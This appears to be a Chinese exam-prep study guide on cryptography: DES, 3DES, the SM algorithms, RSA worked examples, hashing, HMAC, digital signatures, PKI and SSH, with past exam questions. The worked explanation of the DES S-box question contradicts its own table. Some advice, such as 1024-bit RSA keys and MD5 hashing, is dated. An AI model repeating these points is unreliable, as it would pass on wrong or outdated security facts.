###### 🧭 DES 加密过程真题（2019 年第 26 题）

> 已知 DES 算法 S 盒如下（原表 OCR 失真，仅保留结构与答案）：
> - 行 0：`14 4 13 1 2 15 11 8 3 10 6 12 5 9 0 7`
> - 行 1：`0 15 7 4 14 2 13 1 10 6 12 11 9 5 3 8`
> - 行 2：`4 1 14 8 13 6 2 11 15 12 9 7 3 10 5 0`
> - 行 3：`15 12 8 2 4 9 1 7 5 11 3 14 10 0 6 13`
>
> 如果该 S 盒的输入 `110011`，则其二进制输出为 **(26)**。
> A. `1110`  B. `1001`  C. `0100`  D. `0101`

**【答案】A**

**【解析】** 输出行 `11`，转换成十进制是 **3**；列 `1001`，转换成十进制是 **2**（OCR 原文误作「第 3 行第 9 列」，正确应为**第 3 行第 2 列**），那么输出是第 3 行第 2 列对应的数值，即 **14**，转换成二进制是 **`1110`**。

> [!TIP]
> DES S 盒计算规则：**输入 6 位 → 首尾 2 位决定行号（0-3），中间 4 位决定列号（0-15）**，查表得 4 位输出。
> 本题：首尾 `11` = 行 3，中间 `1001` = 列 9？注意教材解析写的是「列 1001 → 2」，属 OCR/排版歧义，最终查表值 **14 = 1110**，答案为 **A**。

###### 🧭 真题：2016 年第 65 题

> 两个密钥三重 DES 加密：`C = EK1[DK2[EK1[P]]]`，`K1 ≠ K2`，其中有效的密钥为 **(65)**。
> A. 56  B. 128  C. 168  D. 112

**【答案】D**

**【解析】** 两个密钥三重 DES 的**有效密钥长度为 112 位**。涉及两个密钥 **K1、K2**，实现三次加密，分别用 **K1 加密，K2 解密，K1 再加密**。有效密钥为 **2 × 56 = 112 位**。

> [!IMPORTANT]
> - 两个密钥 3DES：**112 位**
> - 三个密钥 3DES：**168 位**
> - DES：**56 位**

###### 🧭 国产密码算法

国产密码算法：是指由**国家密码研究相关机构**自主研发，具有相关知识产权的**商用密码算法**，目前已经公布的国产密码算法如下：

| 算法名称 | 算法特征描述 |
| --- | --- |
| **SM1** | **对称加密**，**分组长度和密钥长度都为 128 比特** |
| **SM2** | **非对称加密**，用于**公钥加密算法、密钥交换协议、数字签名算法**（基于**椭圆曲线**问题） |
| **SM3** | **杂凑算法**，**分组 512 位**，**输出杂凑值长度为 256 位** |
| **SM4** | **对称加密**，**分组长度和密钥长度都为 128 比特** |
| **SM9** | **标识密码算法**，支持**公钥加密、密钥交换、数字签名**等安全功能 |

> [!IMPORTANT]
> 国产密码算法速记：
> - **SM1**：对称，128 位（算法不公开，仅以 IP 核形式存在于芯片中）
> - **SM2**：非对称（椭圆曲线），替代 RSA
> - **SM3**：杂凑，分组 **512 位**，输出 **256 位**，替代 MD5/SHA-1
> - **SM4**：对称，128 位，替代 DES/AES，用于无线局域网
> - **SM9**：标识密码（IBC），不需要数字证书

---

##### 3.3 非对称加密算法 RSA

###### 🧭 RSA 算法概述

| 项目 | 要点 |
| --- | --- |
| 发明人 | **Ronald Rivest、Adi Shamir、Leonard Adleman** 三人发明（RSA 即三人姓氏首字母） |
| 性质 | RSA 算法是**非对称算法**，**公钥和私钥都可以用于加密消息**，用于加密消息的密钥与用于解密消息的密钥**相反** |
| 提供的保护 | 提供了一种保护网络通信和数据存储的**机密性、完整性、真实性和不可否认性**的方法 |
| 应用 | **SSH、OpenPGP、S/MIME 和 SSL/TLS** 都依赖于 RSA 进行**加密和数字签名**功能 |
| 公钥密码思想 | 将传统密码的密钥 **K 一分为二**，分为**加密钥 Ke** 和**解密钥 Kd**，用**加密钥 Ke 控制加密**，用**解密钥 Kd 控制解密** |
| 公钥管理 | 每个用户都将自己的**姓名、地址和公开的加密钥**等信息在 **KMC（密钥管理中心）**登记，将公钥记入共享的**公钥数据库 PKDB（Public Key Database）** |

###### 🧭 RSA 三种模式（DNRC）

**模式 (1) 加密模式（确保数据的秘密性）**

- 发送方 A：
  1. ① A 首先查 **PKDB**，查到 B 的公开的**公钥 KeB**；
  2. ② A 用 **KeB** 加密明文 M 得到密文 C：`C = E(M, KeB)`；
  3. ③ A 发密文 C 给 B。
- 接收方 B：
  1. ① B 接受 C；
  2. ② B 用自己的**私钥 KdB** 解密 C，得到明文 `M = D(C, KdB)`。

**模式 (2) 认证模式（确保数据的真实性）**

- 发送方 A：
  1. ① A 用自己的**私钥 KdA** 加密 M，得到密文 C：`C = E(M, KdA)`；
  2. ② A 发密文 C 给 B。
- 接收方 B：
  1. ① B 接收 C；
  2. ② B 查 **PKDB**，查到 A 的公开的**公钥 KeA**；
  3. ③ B 用 **KeA** 解密 C 得到明文 `M = D(C, KeA)`。

**模式 (3) 加密认证混合模式（同时确保数据的秘密性和真实性）**

1. ① A 用自己的**私钥 KdA** 加密 M，得到中间密文 S：`S = E(M, KdA)`；
2. ② 然后 A 查 **PKDB**，得到 B 的公开的**公钥 KeB**；
3. ③ A 用 **KeB** 加密 S 得到最终的密文 C：`C = E(S, KeB)`；
4. ④ A 发密文 C 给 B；
5. ⑤ B 接受 C；
6. ⑥ B 用自己的**私钥 KdB** 解密 C，得到中间密文 `S = D(C, KdB)`；
7. ⑦ B 查 **PKDB**，查到 A 的公开的**公钥 KeA**，用 KeA 解密 S 得到明文 `M = D(S, KeA)`。

```mermaid
graph TD
    subgraph 加密模式
        A1["A 查 PKDB 得 KeB"] --> A2["C = E(M, KeB)"]
        A2 --> A3["B 用 KdB 解密：M = D(C, KdB)"]
    end
    subgraph 认证模式
        B1["A 用 KdA 加密：C = E(M, KdA)"] --> B2["B 查 PKDB 得 KeA"]
        B2 --> B3["M = D(C, KeA)"]
    end
    subgraph 混合模式
        C1["S = E(M, KdA) 私钥签名"] --> C2["C = E(S, KeB) 公钥加密"]
        C2 --> C3["S = D(C, KdB)"]
        C3 --> C4["M = D(S, KeA)"]
    end
```

> [!TIP]
> 混合模式顺序：**先私钥（认证）后公钥（加密）**；解密时**先私钥（解信封）后公钥（验签名）**。

###### 🧭 RSA 相关数学基础

**(1) 欧拉函数**：对于一个正整数 n，**小于 n 且与 n 互素的正整数的个数**，记为 **φ(n)**。

- 对于一个**素数 n**，可知 **φ(n) = n - 1**
- 对于两个素数 p 和 q，它们的乘积满足 **n = p × q**，则可知 **φ(n) = (p-1) × (q-1)**

**(2) 欧几里得算法**：`gcd(a,b)` 表示 a 和 b 的**最大公约数**，`gcd(a,b) = 1` 表示 a、b 最大公约数为 1，表明 **a 和 b 互质**。

**(3) 同余**：两个整数 a、b，若它们**除以整数 m 所得的余数相等**，则称 **a 与 b 对于模 m 同余**，或 a 同余 b 模 m，记作 `a ≡ b (mod m)`。

- 例如：**40 ≡ 1 (mod 13)**，**26 ≡ 2 (mod 12)**。

**(4) 求解乘法逆元**

- `5 × d = 1 mod 72`，求 d？
- `5 × d - 1 = n × 72`（n = 1, 2, 3, 4, ...）
- 解：当 **n = 2** 时，**d = 29**（因为 5 × 29 = 145 = 2 × 72 + 1）

###### 🧭 RSA 密码体制参数的定义

| 步骤 | 操作 | 是否保密 |
| --- | --- | --- |
| ① | 随机选择两个**大素数 p 和 q** | **保密** |
| ② | 计算 **n = p × q** | **公开** |
| ③ | 计算 **φ(n) = (p-1)(q-1)** | **保密**（原文标注「φ(n) 保密」） |
| ④ | 随机选取一个正整数 **e**，**1 < e < φ(n)** 且 **gcd(e, φ(n)) = 1** | **e 公开** |
| ⑤ | 根据 **e × d = 1 mod φ(n)**，求 **d** | **d 保密** |
| ⑥ | **加密运算 `C = M^e mod n`**；**解密运算 `M = C^d mod n`** | — |

**RSA 密码公开加密钥 `Ke = <n, e>`，保密的解密钥 `Kd = <p, q, d, φ(n)>`。**

> [!IMPORTANT]
> 必背：
> - 公钥 **Ke = <n, e>**
> - 私钥 **Kd = <p, q, d, φ(n)>**
> - 加密 **`C = M^e mod n`**，解密 **`M = C^d mod n`**

###### 🧭 RSA 计算案例（一）

设素数 **p = 3，q = 17**，并令 **e = 13**，明文 **M = 2**，则 RSA 的加密操作如下：

| 步骤 | 操作 | 是否保密 |
| --- | --- | --- |
| ① 已知条件 | 素数 **p = 3，q = 17**（为演示方便，不用取特别大） | — |
| ② 计算 n | **n = p × q = 3 × 17 = 51** | 公开 |
| ③ 计算 φ(n) 和 d | **φ(n) = (p-1)(q-1) = 2 × 16 = 32** | 保密 |
| ④ 已知 e | **e = 13** | 公开 |
| ⑤ 求 d | **e × d = 1 mod φ(n)** → `13d = 32n + 1`（n = 1, 2, 3, 4, ...）；当 **n = 2** 时，**d = 5**（13 × 5 = 65 = 2 × 32 + 1） | 保密 |
| ⑥ 加密 | **C = M^e mod n = 2^13 mod 51 = 8192 mod 51 = 32** | — |
| ⑦ 解密 | **M = C^d mod n = 32^5 mod 51 = 1024 × 1024 × 32 mod 51 = 2** | — |

**结果：n = 51，e = 13，p = 3，q = 17，d = 5，φ(n) = 32。**

> [!WARNING]
> OCR 修正：原稿「当 n=2 时，d-7」应为 **d = 5**（13 × 5 = 65 = 32 × 2 + 1）；同页结论行已写 **d = 5**，故以 5 为准。
> 原稿「明文 M = Cd mod n = 325 mod 51」应为 **32^5 mod 51**。

###### 🧭 RSA 计算案例（二）

在 RSA 公钥密钥体制中，选定 **p = 7，q = 13**，取 **e = 5**，当**明文 = 10** 时，求出 d 的值和相应的密文。

| 步骤 | 操作 | 是否保密 |
| --- | --- | --- |
| ① | **n = p × q = 7 × 13 = 91** | 公开 |
| ② | **φ(n) = (p-1) × (q-1) = 6 × 12 = 72** | 保密 |
| ③ | **5 × d = 1 mod 72**，则 `72n = 5d - 1`（n = 1, 2, 3, 4, ...）；当 **n = 2** 时，**d = 29** | 保密 |
| ④ 加密 | **C = M^e mod n = 10^5 mod 91 = 82** | — |
| ⑤ 解密 | **M = C^d mod n = 82^29 mod 91 = 10** | — |

**结果：n = 91，φ(n) = 72，e = 5，d = 29，C = 82。**

###### 🧭 真题：2017 年第 66 题

> 设在 RSA 的公钥密码体制中，公钥为 **(e, n) = (7, 55)**，则私钥 **d = (66)**。
> A. 8  B. 13  C. 23  D. 37

**【答案】C**

**【解析】** 由 **n = 55** 得出，**p 和 q 分别是 5 和 11**（p 和 q 可以交换）。

- **φ(n) = (p-1) × (q-1) = (5-1) × (11-1) = 40**
- 那么根据 **e × d = 1 mod φ(n)**，得知 `7d = 1 mod 40`，即 `7d = 40n + 1`（n = 1, 2, 3, 4, ...），当 **n = 4** 时，**d = 23**（7 × 23 = 161 = 40 × 4 + 1）。

###### 🧭 真题：2018 年第 66 题

> 下列关于公钥密码体制说法**不正确**的是 **(66)**。
> A. 在一个公钥密码体制中，一般存在公钥和私钥两个密钥
> B. 公钥密码体制中仅根据密码算法和加密密钥来确定解密密钥在计算上是**可行的**
> C. 公钥密码体制中仅根据密码算法和加密来确定解密在计算上是**不可行的**
> D. 公钥密码体制中的私钥可以用来进行数字签名

**【答案】B**

**【解析】** 公钥体制中，一般存在**公钥**和**私钥**两种密钥；公钥体制中**仅根据密码算法和加密密钥去确定解密密钥在计算上是不可行的**；公钥体制中的**公钥可以以明文方式发送**；公钥密钥中的**私钥可以用来进行数字签名**。

> [!IMPORTANT]
> 公钥密码体制核心性质：**由公钥推算私钥在计算上不可行**（这是 B 错误的原因）。

###### 🧭 RSA 密码的安全性

- **因子分解攻击**：**小合数的因子分解是容易的**，然而**大合数的因子分解却是十分困难的**。
- 为了确保 RSA 密码的安全，**必须**认真选择 RSA 的密码参数，各个参数选择如下：

| 参数选择要求 | 说明 |
| --- | --- |
| **n 足够大** | 应用 RSA 密码，应当采用**足够大的整数 n**，**p 和 q 要足够大**并且 **p 和 q 应为强素数** |
| **n 的位数** | 一般**加密密钥和认证密钥**选 **n 为 1024 位**，而**平台根密钥和存储根密钥**则选 **n 为 2048 位** |
| **e 的选择** | 为了使**加密速度快**，**e 的二进制表示中应当含有尽量少的 1** |
| **d 的选择** | 为了使**解密速度快**，希望选用**小的 d**，但是 **d 太小也是不好的**。当 **d 小于 n 的 1/4** 时，已有**求出 d 的攻击方法** |
| **禁止共用 n** | **不要许多用户共用一个模数 n** |

> [!IMPORTANT]
> RSA 密钥位数：一般加解密/认证密钥 **1024 位**；平台根密钥、存储根密钥 **2048 位**。

---

##### 3.4 Hash 算法

###### 🧭 哈希算法 Hash 概述

**HASH 函数**，又称为**杂凑函数、散列函数**，它能够将**任意长度的信息**转换成**固定长度的哈希值**（**数字摘要**），并且**任意不同消息或文件所生成的哈希值是不一样的**。

设 **h** 表示 hash 函数，则 h 满足下列条件：

1. **(1)** h 的输入可以是**任意长度**的消息或文件 M；
2. **(2)** h 的输出的**长度是固定的**；
3. **(3)** 给定 h 和 M，计算 **h(M) 是容易的**；
4. **(4)** 给定 h 的描述，找两个不同的消息 M1 和 M2，使得 **h(M1) = h(M2) 是计算上不可行的**。

**哈希函数特性：不可逆性（单向）、无碰撞性、雪崩效应。**

**常见的 Hash 算法：**

| 算法 | 说明 |
| --- | --- |
| **(1) MD5 算法** | 以 **512 位数据块**为单位来处理输入，产生 **128 位**的信息摘要。常用于**文件校验** |
| **(2) SHA 算法** | 以 **512 位数据块**为单位来处理输入，产生 **160 位**的哈希值，具有比 MD5 **更强的安全性** |
| **(3) SM3 国产算法** | 消息分组长度为 **512 比特**，输出 **256 位**摘要 |

```mermaid
graph LR
    M["任意长度消息 M"] --> H["Hash 函数 h"]
    H --> D["固定长度哈希值（数字摘要）"]
    D --> P1["不可逆性（单向）"]
    D --> P2["无碰撞性"]
    D --> P3["雪崩效应"]
```

###### 🧭 HASH 应用（一）文件完整性校验

流程（图 3-?）：

1. ① 发送方对**重要文件**做 Hash，得到**哈希值**；
2. ② 发送方把「**文件 + 哈希值**」一起发送给接收方；
3. ③ 接收方对收到的文件重新做 Hash，得到新的哈希值；
4. ④ **如果两个哈希值相同** → 文件完整未被篡改；否则文件已被篡改。

```mermaid
graph LR
    A["重要文件"] --> B["Hash 运算 → 哈希值"]
    B --> C["文件 + 哈希值 一起发送"]
    C --> D["接收方对文件重新 Hash"]
    D --> E{"哈希值是否相同?"}
    E -- 相同 --> F["文件完整"]
    E -- 不同 --> G["文件已被篡改"]
```

###### 🧭 HASH 应用（二）账号密码存储

| 级别 | 存储方式 | 安全性 |
| --- | --- | --- |
| **1** | **明文存储**，无安全防护 | 最差，一旦拖库即全泄露 |
| **2** | **哈希存储** | 面临 **Rainbow Table Attack（彩虹表攻击）** |
| **3** | **（盐 + 哈希）** 和存储 | **彩虹表攻击失效**，最安全 |

> [!TIP]
> 「**加盐（Salt）**」的本质：给每个用户的口令**加一个随机串再做 Hash**，使预计算的彩虹表失效。

###### 🧭 HASH 应用（三）用户身份认证

- 增加一个**随机数 R** 做哈希 **MAC = Hash（密码 + R）**；
- 需要**双方预先知道**这个 R；
- **MAC**：**消除中间人攻击**，实现**源认证 + 完整性校验**。

流程（PPPoE 场景）：

1. ① 客户端发送用户名（如「张三」）到 PPPoE 服务端；
2. ② 服务端检查有张三，**返回随机数 R**；
3. ③ 客户端计算 `Hash(123 + R)`，服务端也计算 `Hash(123 + R)`；
4. ④ 客户端发回 **HMAC**，服务端对比验证（如 `5eada414d42`）。

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as PPPoE 服务端
    C->>S: 1. 发送用户名（张三）
    S->>C: 2. 检查有张三，返回随机数 R
    C->>C: 计算 Hash(123+R)
    S->>S: 计算 Hash(123+R)
    C->>S: 3. 发回 HMAC，对比验证（5eada414d42）
```

###### 🧭 MAC（消息认证码）

**MAC（Message Authentication Code，消息认证码）**。

MAC 消息认证码在加密的过程中有**两种方法**：

| 方法 | 说明 |
| --- | --- |
| ① **用单向散列函数的实现** | MAC 函数用单向 hash 函数加密时，MAC 被称为 **HMAC（Hash Message Authentication Code）**，**`MAC = Hash(M + key)`** |
| ② **通过分组密码的实现** | 比如基于 **AES 的 CBC-MAC** |

**MAC 的组成要素：**

| 符号 | 含义 |
| --- | --- |
| **K** | 双方**共享的一个密钥** |
| **M** | **变长的消息** |
| **MAC = C_K(M)** | **定长的认证码** |
| 函数特性 | MAC 一般为**多对一函数** |

```mermaid
graph LR
    M["变长消息 M"] --> F["MAC 函数 C_K(M)"]
    K["共享密钥 K"] --> F
    F --> MAC["定长认证码 MAC"]
```

###### 🧭 Hash、MAC 和 HMAC 的区别

| 技术 | 能力 | 是否有密钥参与 |
| --- | --- | --- |
| **Hash** | 能验证**数据完整性**，**无法进行用户身份认证** | **计算过程无密钥参与** |
| **MAC** | 能保证**数据完整性**，同时可以进行**用户身份验证** | **有 key 参与**。可以采用 **Hash 或对称加密算法**两种技术产生 MAC 值 |
| **HMAC** | 是 MAC 的一种，可以验证**数据完整性**，也可以验证**数据是由原始发送方发出的** | 使用 **hash 函数**来构造，**HMAC 输出长度与 Hash 长度一样** |

> [!IMPORTANT]
> 三者辨析：
> - **Hash**：完整性，**无密钥**，不能认证身份
> - **MAC**：完整性 + **身份认证**，**有密钥**
> - **HMAC**：基于 Hash 构造的 MAC，**输出长度 = Hash 长度**

---

##### 3.5 数字签名

###### 🧭 数字签名概念

**数字签名**：签名者使用**私钥**对待签名数据的**哈希值**做密码运算得到的结果，该结果只能用签名者的**公钥**进行验证。

> [!IMPORTANT]
> **私钥签名，公钥验证。**

###### 🧭 数字签名的特点

| 特点 | 说明 |
| --- | --- |
| **非否认** | 签名者**事后不能抵赖**自己的签名（**不可否认性**） |
| **真实性** | 接收者能**验证签名**，而**任何其他人不能伪造签名**（**解决冒充问题**） |
| **可鉴别性** | 如果当事的双方关于签名的真伪发生争执，能够在**公正的仲裁者**面前通过验证签名来确认其真伪 |
| **不可篡改** | **私钥不公开**，所以**不能篡改签名** |

**数字签名可以保证数据的完整性和不可否认性。**

###### 🧭 常见的数字签名算法

**RSA、Rabin、ELGamal 签名体制和 DSS 标准。**

###### 🧭 数字签名与验证过程

**签名过程（图 3-4）：**

1. 电子合同 → **Hash 函数** → **消息摘要**；
2. 消息摘要 → **用发送者私钥签名** → **带签名的电子合同**。

**验证过程（图 3-5）：**

1. 收到的带签名的电子合同 → **用发送者公钥验证** → 得到**消息摘要 1**；
2. 收到的电子合同 → **Hash 函数** → **消息摘要 2**；
3. **比较**两个消息摘要，相同则签名有效。

```mermaid
graph TD
    subgraph 签名
        D1["电子合同"] --> D2["Hash 函数 → 消息摘要"]
        D2 --> D3["发送者私钥签名"]
        D3 --> D4["带签名的电子合同"]
    end
    subgraph 验证
        D4 --> V1["发送者公钥验证 → 消息摘要A"]
        D4 --> V2["电子合同 → Hash 函数 → 消息摘要B"]
        V1 --> V3{"比较 A 与 B"}
        V2 --> V3
        V3 --> V4["相同 → 签名有效"]
    end
```

> [!TIP]
> 数字签名**签的是「哈希值」不是「原文」**，这样既保证完整性又提高效率（非对称加密不适合加密大数据）。

---

##### 3.6 PKI 与数字证书

###### 🧭 数字证书的作用

| 角色 | 动作 |
| --- | --- |
| 发送方 Alice | **明文 → 采用接收方公钥（Bob）进行加密 → 密文** |
| 接收方 Bob | **接收方（Bob）的私钥解密** |
| 关键问题 | **如何确定 Bob 的公钥？→ 获取 Bob 数字证书** |

**数字证书（Digital Certificate）**：类似**身份证**的作用。

| 类比项 | 身份证 | 数字证书 |
| --- | --- | --- |
| 签发机构 | 公安机关 | **CA（Certificate Authority，电子商务认证授权机构）** |
| 唯一标识 | 公民身份号码 | **公钥 + 持有者信息** |
| 防伪 | 公安防伪 | **CA 数字签名**（有 CA 数字签名的，证明绿色是 Bob 公钥） |

###### 🧭 数字证书示例（字段）

| 字段 | 值 |
| --- | --- |
| **序列号** | `04` |
| **签名算法** | `md5RSA` / `sha1RSA` |
| **颁发者** | `ccert@ccert.edu.cn, CCE...` |
| **有效起始日期** | `2002 年 8 月 10 日 0:32:44` |
| **有效终止日期** | `2003 年 8 月 5 日 0:32:44` |
| **主题** | `duan@ccert.edu.cn, Duan...` |
| **公钥** | `30 81 89 02 81 81 00 b2 1b 22 fe 0c 79 64 19 9f 56 d7 e7 2a ...`（1024 位 RSA 公钥十六进制串） |

###### 🧭 数字证书分类与管理

| 项目 | 要点 |
| --- | --- |
| **按类别** | 可分为**个人证书、机构证书和设备证书** |
| **按用途** | 可分为**签名证书和加密证书**。其中，**签名证书**是用于证明**签名公钥**的数字证书；**加密证书**是用于证明**加密公钥**的数字证书 |
| **管理系统** | 为更好地管理数字证书，一般是基于 **PKI 技术**建立**数字证书认证系统**（简称 **CA**），CA 提供数字证书的**申请、审核、签发、查询、发布以及证书吊销**等**全生命周期**的管理服务 |
| **系统构成** | 数字证书认证系统的构成包括**目录服务器、OCSP 服务器、注册服务器、签发服务器**等 |

###### 🧭 PKI 体系结构

| 组成 | 说明 |
| --- | --- |
| **1. 用户 / 终端实体**（PKI 用户） | 指将要向认证中心**申请数字证书**的客户，可以是**个人**，也可以是**集团或团体、某政府机构**等 |
| **2. 注册机构 RA** | 负责**受理用户申请证书**，对**申请人的合法性进行认证**。注册机构提供**用户和 CA 之间的一个接口**，它**获取并认证用户的身份**，向 CA 提出证书请求。主要完成**收集用户信息和确认用户身份**的功能。注册机构**并不给用户签发证书**，而只是对**用户进行资格审查**。**较小的机构，可以由 CA 兼任 RA 的工作** |
| **3. 证书颁发机构 CA** | 负责给用户**颁发、管理和撤销证书** |
| **4. 证书发布系统** | 负责**证书发放**，如可以通过**用户自己**或是通过**目录服务** |
| **5. CRL 库** | **证书吊销列表**，存放**过期或者无效证书** |

```mermaid
graph TD
    U["PKI 用户 / 终端实体"] --> RA["注册机构 RA：受理申请、资格审查"]
    RA --> CA["证书颁发机构 CA：颁发/管理/撤销证书"]
    CA --> PUB["证书发布系统：证书发放（用户自己 / 目录服务）"]
    CA --> CRL["CRL 库：证书吊销列表"]
    PUB --> U
    CRL --> U
    subgraph PKI管理实体
        RA
        CA
        PUB
        CRL
    end
```

> [!IMPORTANT]
> **RA 只做资格审查，不签发证书**；**CA 才签发证书**。小型机构可由 **CA 兼任 RA**。

---

##### 3.7 密钥管理与安全协议

###### 🧭 密钥管理

| 方面 | 内容 |
| --- | --- |
| **密钥管理** | 主要围绕**密钥的生命周期**进行，包括**密钥生成、密钥存储、密钥分发、密钥使用、密钥更新、密钥撤销、密钥备份、密钥恢复、密钥销毁、密钥审计** |
| **密钥管理政策** | 《中华人民共和国密码法》密码分为**核心密码、普通密码和商用密码**，实行**分类管理**。**核心密码、普通密码**用于保护**国家秘密信息**，属于**国家秘密**，由**密码管理部门**依法实行**严格统一管理**。**商用密码**用于保护**不属于国家秘密的信息**，**公民、法人可用** |
| **商用密码管理** | 《商用密码管理条例》：商用密码的**科研生产管理、销售管理、使用、安全保密管理** |
| **密码测评** | 是指对相关**密码产品及系统**进行**安全性、合规性评估**，以确保相关对象的密码安全有效，保障密码系统的安全运行。目前，国家设立了**商用密码检测中心** |

```mermaid
graph LR
    A["密钥生成"] --> B["密钥存储"]
    B --> C["密钥分发"]
    C --> D["密钥使用"]
    D --> E["密钥更新"]
    E --> F["密钥撤销"]
    F --> G["密钥备份/恢复"]
    G --> H["密钥销毁"]
    H --> I["密钥审计"]
```

> [!IMPORTANT]
> 密码三类：**核心密码、普通密码、商用密码**。
> 核心密码、普通密码 → 保护**国家秘密信息**，本身**属于国家秘密**，**严格统一管理**。
> 商用密码 → 保护**不属于国家秘密的信息**，**公民、法人可用**。

###### 🧭 安全协议 —— Diffie-Hellman 密钥交换协议

**Diffie-Hellman 密钥交换协议**：基于求解**离散对数问题的困难性**，通过交换控制消息，保障通信双方能生成**相同的密钥 K**，**避免密钥在互联网上传输**。常用于 **IPsec 密钥交换**。

###### 🧭 安全协议 —— SSH

**SSH（Secure Shell，安全外壳）**是基于**公钥**的安全应用协议，基于 **TCP 22 端口**，包含 **SSH 传输层协议、SSH 用户认证协议和 SSH 连接协议**三个子协议，实现**加密、认证、完整性检查**等多种安全服务。

| 子协议 | 说明 |
| --- | --- |
| **SSH 传输层协议** | 提供**算法协商和密钥交换**，并实现**服务器的认证**，最终形成一个**加密的安全连接**，该安全连接提供**完整性、保密性和压缩选项**服务 |
| **SSH 用户认证协议** | 利用传输层的服务来建立连接，使用**传统的口令认证、公钥认证、主机认证**等多种机制认证用户 |
| **SSH 连接协议** | 在前面两个协议的基础上，利用已建立的认证连接，并将其分解为**多种不同的并发逻辑通道**，支持**注册会话隧道和 TCP 转发**，而且能为这些通道提供**流控服务以及通道参数协商机制** |

###### 🧭 SSH 协议工作过程（图 3-9）

**验证服务器公钥真实性的两种方法：**

| 方法 | 说明 |
| --- | --- |
| **① 指纹比对** | 从公开信道**下载服务器的公钥和它对应的指纹**后，先通过**电话验证**服务器的公钥指纹的真实性，然后用 **HASH 软件**生成服务器的**公钥新指纹**，**比较下载的指纹和新生成的指纹**，若相同，则公钥是真实的，否则为虚假 |
| **② PKI 验证** | 通过 **PKI 技术来验证服务器**，即客户**获取服务器的证书** |

**其他要点：**

- SSH 支持**远程登录、rsh、rlogin、文件传输**等多种安全服务；
- **Linux 系统一般提供 SSH 服务，端口号一般为 22**；
- **SSH 可能受到中间人攻击和拒绝服务攻击**。

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as SSH 服务器
    C->>S: 建立 TCP 连接（22 端口）
    S->>C: 发送服务器公钥（及其指纹）
    C->>C: 用 HASH 生成公钥新指纹，与下载的指纹比对（或通过 PKI 证书验证）
    C->>S: 算法协商 + 密钥交换（传输层协议）
    C->>S: 用户认证（口令/公钥/主机认证）
    C->>S: 建立并发逻辑通道（会话隧道 / TCP 转发）
```

> [!WARNING]
> 易错：SSH **不能防御中间人攻击**（首次连接时若指纹校验不当即可能中招），也**不能防御拒绝服务攻击**。

---

##### 3.8 密码学网络安全应用

###### 🧭 密码技术应用场景

| 应用场景 | 内容 |
| --- | --- |
| **网络用户安全** | 一是基于**公钥密码学**技术，把**用户实体信息与密码数据绑定**，形成**数字证书**，标识网络用户身份，并提供**身份鉴别**服务；二是使用**加密技术**，保护网络用户的**个人敏感信息** |
| **物理和环境安全** | 一是对**物理区域访问者的身份进行鉴别**，保证来访人员的身份真实性；二是保护**电子门禁系统进出记录**的存储**完整性和机密性**；三是保证**视频监控音像记录**的存储**完整性和机密性** |
| **网络和通信安全** | 一是对**通信实体进行双向身份鉴别**，保证通信实体身份的真实性；二是使用**数字签名**保证通信过程中数据的**完整性**；三是对通信过程中进出的**敏感字段或通信报文进行加密**；四是使用**密码安全认证协议**对**网络设备进行接入认证**，确保接入的设备身份的真实性 |
| **设备和计算安全** | 一是使用**密码安全认证协议**对登录设备用户的身份进行**鉴别**；二是使用 **Hash 函数及密码算法**建立**可信的计算环境**；三是使用**数字签名**验证**重要可执行程序来源的真实性**；四是使用**加密措施**保护设备的**重要信息资源**，如**口令文件**；五是使用 **SSH 及 SSL** 等密码技术，建立设备**远程管理安全信息传输通道** |
| **应用和数据安全** | 一是使用**安全协议及数字证书**对登录用户进行**身份鉴别**，保证应用系统用户身份的真实性；二是**加密应用系统访问控制信息**；三是应用 **SSH 及 SSL** 等密码技术，传输重要数据，保护重要数据的**机密性和完整性**；四是**加密存储重要数据**，防止敏感数据泄密；五是使用 **Hash 函数、数字签名**等密码技术，保护应用系统的**完整性**，防止黑客攻击修改 |
| **业务应用创新** | 一是利用**数字证书和数字签名**等密码技术，构建**网络发票**；二是使用 **Hash 函数**等密码技术，构建**区块链**；三是利用密码技术，建立**电子证照** |

```mermaid
graph TD
    A["密码技术应用场景"] --> B["网络用户安全"]
    A --> C["物理和环境安全"]
    A --> D["网络和通信安全"]
    A --> E["设备和计算安全"]
    A --> F["应用和数据安全"]
    A --> G["业务应用创新：网络发票 / 区块链 / 电子证照"]
```

###### 🧭 路由器安全应用

| 应用场景 | 内容 |
| --- | --- |
| **路由器口令安全** | 用 **MD5** 对管理员口令信息进行 **Hash 计算**，然后再保存到路由器配置文件中 |
| **远程登录安全** | 使用 **SSH 替换 Telnet**（**Telnet 明文传输**，容易泄露敏感的口令信息） |
| **路由信息交换认证** | 进行**完整性检查**，比如采用 **MD5-HMAC** 来实现；发送方在路由更新中**加入 Hash**，接收方收到更新后，**重新计算 Hash**，**比较两个 Hash 值是否相等** |

```mermaid
graph LR
    A["路由器A：路由更新包 + Hash（MD5-HMAC）"] --> B["路由器B：接收后重新计算 Hash"]
    B --> C{"两个 Hash 值是否相等?"}
    C -- 相等 --> D["路由更新可信"]
    C -- 不等 --> E["路由更新被篡改，丢弃"]
```

###### 🧭 Web 安全与电子邮件安全

| 项目 | 内容 |
| --- | --- |
| **Web 安全威胁** | Web 安全威胁主要有**信息泄露、非授权访问、网站假冒、拒绝服务**等 |
| **密码学在 Web 的应用** | 应用于 **Web 用户身份认证、Web 加密处理以及 Web 信息完整性检查**等。**重要信息网站通过数字证书和 SSL 共同保护 Web 服务的安全**。利用 **SSL 和数字证书**，可以防止浏览器和 Web 服务器间的通信信息**泄密或被篡改和伪造** |
| **电子邮件安全** | 利用 **PGP（Pretty Good Privacy）** 来保护电子邮件的安全，可以实现**邮件加密、完整性认证和源认证**，目前**最广泛地用于电子邮件安全** |
| **PGP 的密码技术构成** | **密钥管理算法 RSA**、**数据加密算法 IDEA**、**完整性检测和数字签名算法采用 MD5 和 RSA** 以及**随机数生成器**。PGP 将这些密码技术有机集成在一起，利用**对称和非对称加密算法的各自优点**，实现了一个比较完善的密码系统 |

> [!IMPORTANT]
> PGP 三大算法组合：**RSA（密钥管理/签名）+ IDEA（数据加密）+ MD5（完整性检测）**。

---

#### 第 4 章 网络安全体系与安全模型

本章目录：网络安全模型 → 网络安全体系框架和建设内容 → 网络安全体系建设参考案例。

##### 4.1 网络安全体系概述

###### 🧭 定义与构成

网络安全体系是**网络安全保证系统的最高层概念抽象**，是由各种**网络安全单元**按照一定的规则组成，共同实现网络安全的目标。

网络安全体系包括**法律法规政策文件、安全策略、组织管理、技术措施、标准规范、安全建设与运营、人员队伍、教育培训、产业生态、安全投入**等多种要素。

